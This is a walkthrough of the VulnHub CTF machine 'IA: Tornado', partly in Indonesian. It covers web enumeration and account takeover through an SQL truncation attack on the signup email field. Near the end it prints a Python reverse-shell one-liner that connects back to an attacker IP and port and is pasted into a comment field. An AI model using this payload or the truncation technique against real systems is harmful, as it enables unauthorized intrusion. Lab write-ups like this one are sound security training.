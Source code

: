 # IA-Tornado

## Overview :
IA: Tornado adalah sebuah mesin CTF dari VulnHub dengan tingkat kesulitan medium, yang dirancang buat nguji kemampuan dalam melakukan web enumeration, file analysis, dan privilege escalation.
Mesin ini cocok buat lu yang udah paham dasar-dasar pentesting dan pengen naik level ke teknik yang lebih advanced.

## Objective :
- Perform scanning and enumeration to identify active services and entry points.
- Exploit the discovered vulnerabilities to gain access to the system.
- Perform privilege escalation until you get root access.
- Guess some passwords to log in as root.

## The Hack :
As usual, the first thing we do is find the target IP by scanning the machines on the network we are using, using tools like netdiscover , Angry IP , etc. Here I am using netdiscover, so let's get started.
```
sudo netdiscover
```

![Screenshot](images/1.png)

The IP address 192.168.0.108 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.108
```

![Screenshot](images/2.png)

The nmap scan results show that there are several ports running, because port 80 is open, which means the server is running a website, let's take a look.

![Screenshot](images/3.png)

As usual, the book is empty and has no meaning, so let's immediately carry out a deeper enumeration using a tool like Gobuster.
```
gobuster dir -u http://192.168.0.108/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

![Screenshot](images/4.png)

Yep. Look... I found the /bluesky directory. Let's take a look.

![Screenshot](images/5.png)

Wow. The sky looks beautiful, but the information isn't. Let's try running gobuster again, but this time add a /bluesky entry and see what we get.
```
gobuster dir -u http://192.168.0.108/bluesky -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

![Screenshot](images/6.png)


signup.php? Hmm... Let's check that out.

![Screenshot](images/7.png)

Yes this is the page to create an account, let's try to create an account with random credentials and see what we get in it.

![Screenshot](images/8.png)

![Screenshot](images/9.png)

After registering and logging in to /bluesky/login.php, I was presented with a dashboard. Let's examine each one.

![Screenshot](images/11.png)

![Screenshot](images/10.png)

So, when I click on the CONTACT entry, it doesn't work and doesn't display much other than LFI instructions. After testing, I found no LFI vulnerabilities.

While examining the source code of the web page, we noticed one out-of-place comment on the portfolio.php page.

![Screenshot](images/12.png)

This LFI seems plausible. After some thought and testing, nothing happened. But why don't we try viewing the page at http://192.168.0.108/~tornado/imp.txt?

![Screenshot](images/13.png)

YES! I'm getting multiple users. I've also tried creating accounts in /bluesky/signup.php with all the same users, but to no avail. Also, all email addresses are already registered. I was about to give up, but I finally realized the vulnerability thanks to the inspect element.

So... if we go to the /bluesky/signup.php page and create an account with a random email, the email can't be more than a few characters long. So I inspected the element and lo and behold!!!

![Screenshot](images/14.png)

Yes, that's the problem. The maximum length is "13"? That seemed odd, so I found this CVE. It's a SQL Truncation attack. We can access it by changing the email length parameter, inserting the email we found with LFI, and then adding our previously registered email. In this case, the system thinks I'm logged in with the account "rose@wht.com", but I'm not! I can log in with all the other users!

![Screenshot](images/15.png)

Change that value to 35 or higher as you wish! Now I need to find a user who can use "contacts" and I found one!

![Screenshot](images/16.png)

It worked! And now I can access the /bluesky/login.php page with jacob@tornado and finally access the previously blocked "contacts" entry!

![Screenshot](images/17.png)

Since this is a potential LFI vulnerability, I'll now try writing a payload to get a shell. I'll try using this payload:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Copy this and paste it into the comment field. Before you click "comment," it's a good idea to open a new terminal and use netcat to get a reverse connection.

![Screenshot](images/18.png)

YES IT LOOKS GOOD AND I'M IN! Next type sudo -l to see if I can log in as root
